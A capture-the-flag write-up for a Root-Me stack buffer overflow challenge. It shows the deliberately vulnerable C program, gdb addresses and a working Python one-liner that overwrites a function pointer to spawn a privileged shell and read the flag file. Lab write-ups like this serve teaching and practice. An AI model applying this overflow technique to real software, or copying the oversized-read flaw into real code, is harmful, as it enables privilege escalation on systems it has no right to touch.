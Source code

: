 # ELF x86 - Stack buffer overflow basic2

- Problem: https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-2

We can see the source code as follows.
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
void main()
{ 
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

We can overflow the buffer and change the address of the sup function to shell.
```
gef➤  p shell
$1 = {<text variable, no debug info>} 0x8048516 <shell>
gef➤  p sup
$2 = {<text variable, no debug info>} 0x8048559 <sup>
gef➤  p main
$3 = {<text variable, no debug info>} 0x8048584 <main>

app-systeme-ch15@challenge02:~$ cat <(python -c 'print "A" * 128 + "\x16\x85\x04\x08" + "\n"') - | ./ch15
id
uid=1215(app-systeme-ch15-cracked) gid=1115(app-systeme-ch15) groups=1115(app-systeme-ch15),100(users)
cat .passwd
```
